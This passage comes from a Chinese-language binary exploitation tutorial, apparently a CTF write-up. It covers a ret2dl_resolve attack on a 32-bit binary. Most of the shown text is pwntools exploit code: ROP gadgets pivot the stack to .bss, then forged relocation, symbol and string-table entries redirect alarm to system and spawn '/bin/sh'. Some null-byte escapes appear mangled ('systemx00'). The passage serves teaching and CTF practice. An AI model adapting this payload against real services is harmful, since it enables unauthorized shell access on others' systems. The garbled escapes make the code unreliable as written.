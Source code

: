 ```
gadget2=0x080485d9 #pop esi | pop edi | pop ebp | ret
gadget3=0x080485db #pop ebp | ret
stack_size=0x800
base_stage=bss_addr+stack_size

payload1="A"*4 #留给上一个ROP链会执行的leave（pop ebp）的数据
payload1+=p32(read_plt)+p32(gadget2)+p32(base_stage)+p32(100)
payload1+=p32(gadget3)+p32(base_stage)
payload1+=p32(gadget1)
p.sendline(payload1)
```

成功将栈顶变为bss_addr 栈底变为base_stage，完成stack pviot

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f823c563361b04d9.png)

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0%E4%BC%AA%E9%80%A0%E8%A1%A8"></a>构造伪造表

构造时候，需要计算出偏移值，然后再设计栈。这是一个很需要耐心的过程。

希望读者能把下面这段代码好好消化以下，对照上面的重定位表的结构。

```
#fake struct
dynsym=0x080481dc#objdump -h pwn
dynstr=0x0804827c
alarm_got=0x0804a010
fake_sym_addr=base_stage+36
align=0x10-((fake_sym_addr-dynsym)&amp;0xf) #align=8#栈对齐
fake_sym_addr=fake_sym_addr+align

index_dynsym=(fake_sym_addr-dynsym)/0x10 #计算fake_sym和dysym的偏移
r_info=index_dynsym&lt;&lt;8|0x7 #要遵循r_info的结构
fake_reloc=p32(alarm_got)+p32(r_info)# rel alarm-&gt;system #将alarm重定位
st_name=fake_sym_addr+0x10-dynstr #计算fake_dynstr和真实dynstr的偏移
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12) #根据sym结构体，构造fake_sym

plt0=0x08048380 #.plt 强制alarm重定位
rel_plt=0x0804833c #原JMPREL结构位置
index_offset=(base_stage+28)-rel_plt #计算reloc_arg
cmd='/bin/sh'

payload2='B'*4 #EBP
payload2+=p32(plt0) #程序强制重定位
payload2+=p32(index_offset) # push reloc_arg
payload2+='A'*4 #EBP 
payload2+=p32(base_stage+80) #重定位结束之后，栈顶设置为base_stage+80
payload2+='A'*8
#fake_struct
payload2+=fake_reloc #base_stage+28 #在栈中伪造fake_reloc结构
payload2+='B'*8
payload2+=fake_sym #base_stage+36#在栈中伪造fake_sym结构
payload2+="systemx00" #在栈中伪造 dynstr结构
payload2+='A'*(80-len(payload2))
payload2+=cmd+'x00' #重定位结束之后，会自动调用被重定位函数，此时在栈顶存放system的参数
payload2+='A'*(100-len(payload2))
print len(payload2)
p.send(payload2)
```
